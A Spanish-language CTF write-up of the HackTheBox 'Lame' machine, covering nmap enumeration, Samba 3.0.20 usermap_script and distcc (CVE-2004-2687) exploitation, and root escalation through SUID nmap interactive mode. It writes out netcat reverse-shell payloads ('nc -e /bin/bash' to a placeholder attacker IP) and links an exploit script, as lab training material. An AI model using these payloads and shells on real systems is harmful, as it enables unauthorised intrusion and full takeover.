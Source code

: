 ```yaml
---
layout: single
title: HackTheBox - Máquina Lame
excerpt: "Solución de la máquina Lame de Hack the Box"
date: 2021-03-18
classes: wide
header:
  teaser: /assets/images/htb/lame/lame.png
  teaser_home_page: true
tags:
  - Htb
  - Pentesting
  - Linux
  - Easy
---
```


<p align="center">
<img src="/assets/images/htb/lame/lame.png">
</p>

# Enumeración

Lanzamos un escaneo para ver los puertos que tiene abiertos y después lanzamos para obtener versiones y scripts básicos de nmap.

```bash
nmap -sS --min-rate 5000 -p- --open -T5 -v -n -Pn -oG allPorts 10.10.10.3

nmap -sV -sC -p21,22,139,445,3632 10.10.10.3 -oN targeted

```

Y obtenemos el siguiente resultado:

```text
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

# Explotación
Cuando empecé con esta máquina de HTB usé Metasploit por no tener experiencia. Cuando me propuse crear este contenido también empece a ver vídeos y streams de gente que se dedica al mundo de la Ciberseguridad para adquirir conocimientos. Viendo un vídeo acerca de esta máquina, vi que también se podía hacer de forma manual por lo que también lo voy hacer de esta forma para adquirir ese conocimiento.

Después de analizar el FTP mediante el acceso anónimo y ver que no hay nada disponible, analizamos *samba y el software distcc* como posible vector de ataque.

## Automática (Metasploit)

Buscamos la versión de samba 3.0.20 con searchsploit.

```bash
searchsploit samba 3.0.20
```

Y obtenemos el siguiente resultado:

```bash
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                   | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - Username map script Command Execution (Metasploit)                                                                            | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                    | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                    | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                            | linux_x86/dos/36741.py
--------------------------------------------------------------------------------------------------------------------------------------------------------- 
```

Abrimos metasploit y usamos `use exploit/multi/samba/usermap_script`. Configuramos las opciones con `show options` y el payload `show payload` (`cmd/unix/reverse`), el siguiente paso es ejecutar con `exploit` y obtenemos la reverse shell. Ya solo quedaría obtener la flag de usuario y de root, ya que de este modo somos root.

## Explotación Manual

Como he mencionado antes esta parte la vi en el writeup de s4vitar, por lo que voy a reproducirla para aprender de forma manual.

### Samba

Buscamos un script mediante `searchsploit samba 3.0 command execution` y obtenemos lo siguiente:

```bash
searchsploit samba 3. command execution
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.20 < 3.0.25rc3 - Username map script Command Execution (Metasploit)     | unix/remote/16320.rb
---------------------------------------------------------------------------------------------------------------------
```

Mediante `smbmap -H 10.10.10.3 ` vemos los permisos de los recursos compartidos de la máquina:

```bash
smbmap -H 10.10.10.3      
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

Nos conectamos al directorio /tmp `smbclient //10.10.10.3/tmp --option="client min protocol=NT1" -N` utilizando null sesión, también hay que añadirle el parámetro --option ya que si no lo pones te saltara un error de autenticación.

Analizando el script vemos que hace un login con el siguiente usuario:

```bash
`username = "/=`nohup " + payload.encoded + "`"`
```

Estando conectado al recurso compartido, lanzamos un login con el siguiente formato para poder obtener una conexión vía netcat a nuestra máquina.

```bash
smb: \> logon "/=`nohup nc -e /bin/bash <ip_atacante> <puerto>`"
Password: (Damos enter)
```

### Distcc

Si hacemos un `searchsploit distcc` nos sale lo siguiente:

```bash
--------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                     |  Path
--------------------------------------------------------------------------------------------- ---------------------------------
DistCC Daemon - Command Execution (Metasploit)     | multiple/remote/9915.rb
--------------------------------------------------------------------------------------------- ---------------------------------
```
Como se puede ver hay un script pero es a través de Metasploit, para hacerlo de forma manual con [exploit github](https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/48ab4eb0bd69cac67bc97fbe182e39e5ded99f9f/distccd_rce_CVE-2004-2687.py)

Ejecutamos con un whoami para probar:

```bash
python3 distccd_rce_CVE-2004-2687.py -h 10.10.10.3 -p 3632 -c whoami
```

Cuando yo hice la prueba me daba el siguiente error:

```bash
[OK] Connected to remote service
a bytes-like object is required, not 'str'
[KO] Exception Raised
```

Por lo que tuve que editar para añadir el str.encode() y el decode en la siguientes variables:

<p align="center">
<img src="/assets/images/htb/lame/distcc_exploit.PNG">
</p>

Cuando el lanzamiento ha sido satisfactorio obtenemos por pantalla el usuario `daemon`, el siguiente paso es lanzar una shell hacia nuestra máquina:

```bash
python3 distccd_rce_CVE-2004-2687.py -h 10.10.10.3 -p 3632 -c 'nohup nc -e /bin/bash <ip> <puerto> &'
```

<span style="color:#d7f798">[IMPORTANTE] El nohup se pone para que cuando se lanza un exploit que te da una sesión y se cierra, se quede en segundo plano en otro proceso. Cuando obtenemos la reverse shell hacemos el tratamiento de la shell.</span>

Desde la carpeta home hacemos la búsqueda de la flag de user.txt y la mostramos con:

```bash
find \-name user.txt 2>/dev/null | xargs cat
```

# Escalada de privilegios desde distcc

Para escalar privilegios en esta máquina hacemos uso de los suids:

```bash
find \-perm -4000 2>/dev/null
```
Para esta máquina vamos a usar <b>./usr/bin/nmap</b> para elevar privilegios, para ello usamos [GTFOBINS](https://gtfobins.github.io) para obtener una shell con el binario nmap. 

En GTFOBINS nos dice que hay dos maneras pero mirando la versión de nmap, se puede utilizar la b) The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands

```bash
daemon@lame:/$ nmap --version

Nmap version 4.53 ( http://insecure.org )
```

```bash
daemon@lame:/$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
sh-3.2#
```

Y ya nos queda ver la flag de root.
